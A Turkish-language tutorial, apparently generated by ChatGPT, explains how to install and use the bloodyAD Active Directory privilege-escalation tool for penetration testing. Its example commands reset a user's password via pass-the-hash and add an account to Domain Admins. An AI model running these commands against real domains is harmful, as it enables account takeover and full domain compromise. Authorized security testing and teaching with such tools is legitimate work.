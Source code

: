# bloodyAD Kullanım Rehberi

## bloodyAD Nedir?

**bloodyAD**, Active Directory (AD) ortamlarında çeşitli LDAP çağrılarını kullanarak yetki yükseltme işlemleri gerçekleştiren bir güvenlik aracıdır. Araç, hem farklı kimlik doğrulama yöntemlerini destekler hem de bir Domain Controller'a bağlanarak AD üzerindeki kötü yapılandırmaları ve güvenlik açıklarını manipüle eder.

> **Önemli Not:** bloodyAD yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Özellikler

1. **LDAP Üzerinden Yetki Yükseltme:**
   - Parola, bilet ya da sertifika kullanarak AD nesnelerinde değişiklik yapabilir.
2. **Şifre ve Hash Desteği:**
   - Cleartext şifreler, Pass-the-Hash (PTH) ve Pass-the-Ticket (PTT) gibi yöntemleri destekler.
3. **LDAPS ile Güvenli İletişim:**
   - LDAPS olmadan da hassas bilgilerin değiş tokuşunu yapabilir.
4. **SOCKS Proxy Uyumluluğu:**
   - Proxy üzerinden kullanım için tasarlanmıştır.

---

## İndirme ve Çalıştırma

bloodyAD aracı GitHub üzerinden sağlanabilir:

- [bloodyAD GitHub Sayfası](https://github.com/CravateRouge/bloodyAD)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/CravateRouge/bloodyAD.git
   cd bloodyAD
   python3 -m pip install -r requirements.txt
   ```

2. **Çalıştırın:**
   ```bash
   bloodyAD <parametreler>
   ```

---

## Kullanım Komutları

### 1. Parola Ayarlama
Bir hedef kullanıcının parolasını değiştirmek için kullanılır.

**Parametreler:**
- `--host`: Hedef Domain Controller IP adresi. (**Gerekli**)
- `-d`: Domain adı. (**Gerekli**)
- `-u`: Kullanıcı adı. (**Gerekli**)
- `-p`: Parola veya NTLM hash. (**Gerekli**)

**Örnek Kullanım:**
```bash
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 set password john.doe 'Password123!'
```

### 2. Kullanıcı Grubu Manipülasyonu
Bir kullanıcıyı gruba eklemek veya çıkarmak için kullanılır.

**Örnek Kullanım:**
```bash
bloodyAD --host 172.16.1.15 -d bloody.local -u admin -p AdminPass add group john.doe 'Domain Admins'
```

### 3. SOA (Start of Authority) Kontrolü
AD üzerinde SOA kayıtlarını incelemek için kullanılır.

**Örnek Kullanım:**
```bash
bloodyAD --host 172.16.1.15 -d bloody.local -u admin -p AdminPass check soa
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** bloodyAD yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç, üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

## Kaynaklar

- [bloodyAD GitHub Sayfası](https://github.com/CravateRouge/bloodyAD)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.

ChatGPT: **bloodyAD** için Türkçe kullanım rehberi dokümana eklendi. Daha fazla düzenleme veya başka bir konuda yardım ister misiniz?
